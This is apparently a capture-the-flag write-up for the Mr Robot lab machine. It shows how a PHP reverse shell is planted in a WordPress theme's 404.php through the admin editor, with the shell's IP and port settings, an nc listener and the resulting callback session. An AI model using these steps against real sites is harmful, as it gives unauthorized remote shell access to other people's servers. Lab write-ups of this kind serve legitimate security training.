

# Getting a shell
You can get a shell from the
wp-admin page by editing a
.php page on the site with your reverse shell code.
Go to Appearance > Editor
The
404.php page is the easiest to edit.
Configure the PHP shell and then paste it into
404.php template.
root@kali:~/ctf/mrRobot/80http# ls /usr/share/webshells/php
findsock.c php-backdoor.php php-findsock-shell.php php-reverse-shell.php qsd-php-backdoor.php simple-backdoor.php
root@kali:~/ctf/mrRobot/80http# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/ctf/mrRobot/80http# nano php-reverse-shell.php
...
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.183'; // CHANGE THIS
$port = 9001; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
...
root@kali:~/ctf/mrRobot/80http# mv php-reverse-shell.php phprs.php
Now whenever we visit a page on the site that doesn't exist, the website will redirect us to a 404 and load the 404.php error page. When we we hit the 404 page, our PHP reverse shell will run.
Prep your listener
root@kali:~/ctf/mrRobot/80http# nc -lvnp 9001
listening on [any] 9001 ...
Navigate to a page on the site that doesn't exist (or
404.php)
http://192.168.1.170/404.phpAnd we should get a callback on our listener.
root@kali:~/ctf/mrRobot/80http# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.183] from (UNKNOWN) [192.168.1.170] 53513
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
10:47:42 up 15 min, 0 users, load average: 0.00, 0.03, 0.06
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$